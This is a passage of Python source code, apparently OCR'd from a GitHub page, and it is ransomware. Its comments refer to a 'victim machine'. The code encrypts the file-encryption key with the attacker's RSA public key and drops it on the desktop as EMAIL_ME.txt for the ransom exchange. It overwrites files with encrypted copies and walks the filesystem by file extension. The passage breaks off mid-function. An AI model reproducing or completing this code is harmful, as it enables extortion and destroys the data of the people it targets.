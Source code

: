 ```python
    # Encrypt [SYMMETRIC KEY] that was created on victim machine to Encrypt/Decrypt files with our PUBLIC ASYMMETRIC-
    # -RSA key that was created on OUR MACHINE. We will later be able to DECRYPT the SYMMETRIC KEY used for-
    # -Encrypt/Decrypt of files on target machine with our PRIVATE KEY, so that they can then Decrypt files etc.
    def encrypt_fernet_key(self):
        with open('fernet_key.txt', 'rb') as fk:
            fernet_key = fk.read()
        with open('fernet_key.txt', 'wb') as f:
            # Public RSA key
            self.public_key = RSA.import_key(open('public.pem').read())
            # Public encrypter object
            public_crypter =  PKCS1_OAEP.new(self.public_key)
            # Encrypted fernet key
            enc_fernent_key = public_crypter.encrypt(fernet_key)
            # Write encrypted fernet key to file
            f.write(enc_fernent_key)
        # Write encrypted fernet key to desktop as well so they can send this file to be unencrypted and get system/files back
        with open(f'{self.sysRoot}Desktop/EMAIL_ME.txt', 'wb') as fa:
            fa.write(enc_fernent_key)
        # Assign self.key to encrypted fernet key
        self.key = enc_fernent_key
        # Remove fernet crypter object
        self.crypter = None


    # [SYMMETRIC KEY] Fernet Encrypt/Decrypt file - file_path:str:absolute file path eg, C:/Folder/Folder/Folder/Filename.txt
    def crypt_file(self, file_path, encrypted=False):
        with open(file_path, 'rb') as f:
            # Read data from file
            data = f.read()
            if not encrypted:
                # Print file contents - [debugging]
                print(data)
                # Encrypt data from file
                _data = self.crypter.encrypt(data)
                # Log file encrypted and print encrypted contents - [debugging]
                print('> File encrpyted')
                print(_data)
            else:
                # Decrypt data from file
                _data = self.crypter.decrypt(data)
                # Log file decrypted and print decrypted contents - [debugging]
                print('> File decrpyted')
                print(_data)
        with open(file_path, 'wb') as fp:
            # Write encrypted/decrypted data to file using same filename to overwrite original file
            fp.write(_data)


    # [SYMMETRIC KEY] Fernet Encrypt/Decrypt files on system using the symmetric key that was generated on victim machine
    def crypt_system(self, encrypted=False):
        system = os.walk(self.localRoot, topdown=True)
        for root, dir, files in system:
            for file in files:
                file_path = os.path.join(root, file)
                if not file.split('.')[-1] in self.file_exts:
                    continue
                if not encrypted:
```